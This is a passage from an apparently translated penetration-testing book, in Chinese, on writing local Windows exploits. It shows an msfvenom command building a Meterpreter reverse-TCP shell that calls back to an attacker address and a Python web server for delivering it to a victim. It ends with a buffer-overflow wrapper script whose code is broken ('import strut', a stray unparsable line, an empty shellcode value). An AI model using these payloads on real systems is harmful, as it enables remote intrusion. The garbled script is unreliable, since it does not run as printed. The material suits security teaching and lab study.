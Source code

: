 值得注意的是，通过在系统上执行有效负载可以实现相同的访问权限。生成这样的有效负载只需要我们运行以下命令：

```py
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -b '\x00' -f exe -o /tmp/exploit.exe

```

然后，使用以下命令启动 Python Web 服务器：

```py
python -m SimpleHTTPServer

```

以下图表突出了相关命令的输出：

![理解本地利用的目的](img/B04315_08_40.jpg)

然后，通过浏览器在受害者系统上下载并执行有效负载来实现期望的结果。

![理解本地利用的目的](img/B04315_08_41.jpg)

因此，您可能会问自己，那我们为什么要创建这个漏洞利用呢？如果我们刚刚为其创建漏洞利用的软件是以管理员身份而不是我们登录的用户身份运行的，那么利用这个解决方案将更有用。然而，尽管这种情况在这个程序的性质中是不太可能的。因此，为这种漏洞生成 Metasploit 模块将不会很有用。相反，考虑到这一点，这个练习是写你的第一个漏洞利用的绝佳机会。

在编写漏洞利用时还有另一个考虑因素，那就是根据程序的不同，您的漏洞利用可能不太可靠。这意味着由于代码的细微差别，您的漏洞利用可能会时而有效，时而无效。因此，在真实组织中执行之前，您将不得不在实验环境中进行实质性的测试。

# 理解其他漏洞利用脚本

除了编写可以上传到程序中的恶意文件之外，您可能还需要生成与服务交互的代码，这些服务可以是接受参数的独立程序、TCP 服务，甚至是 UDP 服务。考虑我们刚刚利用的上一个程序，如果它的性质不同，我们仍然可以利用它，只是脚本与它交互的方式会有所不同。以下三个示例展示了如果满足这些条件，代码会是什么样子。当然，内存地址和大小必须根据您可能遇到的其他程序进行调整。

## 通过执行脚本利用独立的二进制文件

我们甚至可以创建 Python 脚本来包装需要传递参数的程序。这样，您可以使用包装脚本构建漏洞利用，这些脚本注入代码，如下所示：

```py
import subprocess, strut
program_name = 'C:\exploit_writing\vulnerable.exe'
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =() #Code to insert
remaining space
exploit = fill + eip + offset + shell
subprocess.call([program_name, exploit])
```

